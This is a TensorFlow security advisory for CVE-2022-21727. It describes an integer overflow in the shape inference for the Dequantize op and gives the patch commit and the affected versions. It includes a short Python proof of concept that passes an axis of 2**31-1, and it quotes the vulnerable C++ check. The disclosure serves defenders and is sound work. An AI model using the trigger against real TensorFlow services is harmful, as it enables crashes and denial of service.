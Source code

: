 ## TFSA-2022-004: Integer overflow in shape inference for `Dequantize`

### CVE Number
CVE-2022-21727

### Impact
The [implementation of shape inference for `Dequantize`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/ops/array_ops.cc#L3001-L3034) is vulnerable to an integer overflow weakness:

```python
import tensorflow as tf

input = tf.constant([1,1],dtype=tf.qint32)

@tf.function
def test():
  y = tf.raw_ops.Dequantize(
    input=input,
    min_range=[1.0],
    max_range=[10.0],
    mode='MIN_COMBINED',
    narrow_range=False,
    axis=2**31-1,
    dtype=tf.bfloat16)
  return y

test()
```

The `axis` argument can be `-1` (the default value for the optional argument) or any other positive value at most the number of dimensions of the input. Unfortunately, the upper bound is not checked, and, since the code computes `axis + 1`, an attacker can trigger an integer overflow:

```cc
  int axis = -1;
  Status s = c->GetAttr("axis", &axis);
  // ...
  if (axis < -1) {
    return errors::InvalidArgument("axis should be at least -1, got ",
                                   axis);
  }
  // ...
  if (axis != -1) {
    ShapeHandle input;
    TF_RETURN_IF_ERROR(c->WithRankAtLeast(c->input(0), axis + 1, &input));
    // ...
  }
```

### Patches
We have patched the issue in GitHub commit [b64638ec5ccaa77b7c1eb90958e3d85ce381f91b](https://github.com/tensorflow/tensorflow/commit/b64638ec5ccaa77b7c1eb90958e3d85ce381f91b).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
